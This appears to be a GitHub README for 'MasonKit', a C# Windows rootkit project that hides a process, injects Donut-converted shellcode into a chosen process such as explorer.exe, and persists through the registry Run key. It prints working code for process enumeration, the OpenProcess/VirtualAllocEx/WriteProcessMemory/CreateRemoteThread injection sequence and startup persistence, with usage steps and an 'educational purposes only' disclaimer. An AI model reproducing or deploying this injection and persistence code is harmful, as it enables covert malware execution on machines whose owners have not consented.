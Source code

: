 # MasonKit - Rootkit Project
<p align="center">
  <img src="https://i.ibb.co/LzP0f7G3/image.png" alt="App" />
</p>
## Overview
MasonKit is a **Rootkit** project developed by **ABOLHB** from the **FREEMASONRY** group. The primary purpose of this tool is to **hide a program from the process list** and **inject it into any system file** of your choice. This project is intended for **educational purposes only**, and the creator and contributors are **not responsible** for any misuse or illegal activities performed using this tool.

---

## Disclaimer
This project is shared for **educational and research purposes only**. The creator, contributors, and the FREEMASONRY group are **not responsible** for any illegal or unethical use of this tool. Use it at your own risk, and ensure you have proper authorization before using it in any environment.

---

## Features
1. **Process Hiding**: The Rootkit hides the target process from the system's process list.
2. **Shellcode Injection**: Injects custom shellcode into a specified system process.
3. **Persistence**: Optionally adds the Rootkit to the system's startup registry.
4. **Customizable**: Allows users to specify the target process and shellcode file.

---

## Code Explanation

### 1. **Main Components**
The project is built using **C#** and utilizes the **Windows API** for low-level system operations. Below is a detailed breakdown of the code:

---

### 2. **MasonForm Class**
This is the main form class for the application. It handles user interactions and initiates the Rootkit functionality.

#### Key Methods:
- **`Form1_Load`**: Initializes the form and sets default values for UI elements.
- **`guna2Button1_Click`**: Handles the injection process. It reads the shellcode from a `.bin` file, compiles it into a new executable, and injects it into the target process.
- **`guna2Button2_Click`**: Allows the user to select an executable file, converts it into shellcode using **Donut**, and saves it as `shellcode.bin`.

---

### 3. **Rootkit Functionality**
The Rootkit is implemented in the dynamically generated C# code. Below is a breakdown of its key components:

#### **Constants and Imports**
```csharp
const int PROCESS_ALL_ACCESS = 0x1F0FFF;
const uint MEM_COMMIT = 0x1000;
const uint MEM_RESERVE = 0x2000;
const uint PAGE_EXECUTE_READWRITE = 0x40;
const uint MEM_RELEASE = 0x8000;
```
These constants define memory allocation and process access permissions.

#### **Windows API Functions**
- **`CreateToolhelp32Snapshot`**: Takes a snapshot of the system's processes.
- **`Process32First`** and **`Process32Next`**: Enumerate processes in the snapshot.
- **`OpenProcess`**: Opens a handle to the target process.
- **`VirtualAllocEx`**: Allocates memory in the target process.
- **`WriteProcessMemory`**: Writes shellcode into the allocated memory.
- **`CreateRemoteThread`**: Executes the shellcode in the target process.

#### **Process Enumeration**
```csharp
static uint GetProcessIdByName(string processName)
{
    uint processId = 0;
    IntPtr snapshot = CreateToolhelp32Snapshot(0x2, 0);
    PROCESSENTRY32 processEntry = new PROCESSENTRY32 { dwSize = (uint)Marshal.SizeOf(typeof(PROCESSENTRY32)) };
    if (Process32First(snapshot, ref processEntry))
    {
        do
        {
            if (processName == processEntry.szExeFile)
            {
                processId = processEntry.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, ref processEntry));
    }
    CloseHandle(snapshot);
    return processId;
}
```
This function retrieves the process ID of the target process by name.

#### **Shellcode Injection**
```csharp
IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
IntPtr pRemoteMemory = VirtualAllocEx(hProcess, IntPtr.Zero, shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, pRemoteMemory, shellcode, shellcode.Length, out int bytesWritten);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, pRemoteMemory, IntPtr.Zero, 0, IntPtr.Zero);
```
This code injects the shellcode into the target process and executes it.

#### **Persistence**
```csharp
static void AddToStartup()
{
    string appPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
    using (RegistryKey key = Registry.CurrentUser.OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true))
    {
        if (key != null)
        {
            key.SetValue("MyApplication", appPath);
        }
    }
}
```
This method adds the Rootkit to the system's startup registry for persistence.

---

### 4. **Donut Integration**
The project uses **Donut** to convert executable files into shellcode. The shellcode is then injected into the target process.

---

## Usage
1. **Select Target Process**: Enter the name of the target process (e.g., `explorer.exe`).
2. **Load Shellcode**: Use the `Load Shellcode` button to convert an executable into shellcode.
3. **Inject**: Click the `Inject` button to inject the shellcode into the target process.
4. **Persistence**: Enable the `Add to Startup` checkbox to ensure the Rootkit runs on system startup.

---

## Ethical Considerations
- **Authorization**: Always ensure you have proper authorization before using this tool.
- **Legal Compliance**: Misuse of this tool may violate local and international laws.
- **Educational Use**: This project is intended for educational purposes only.

---

## Credits
- **ABOLHB**: Creator of MasonKit.
- **FREEMASONRY Group**: The group behind the project.

---

## Links
- [Discord Server](https://discord.gg/dvXH85CfpN)
- [Instagram](https://www.instagram.com/g7m9)

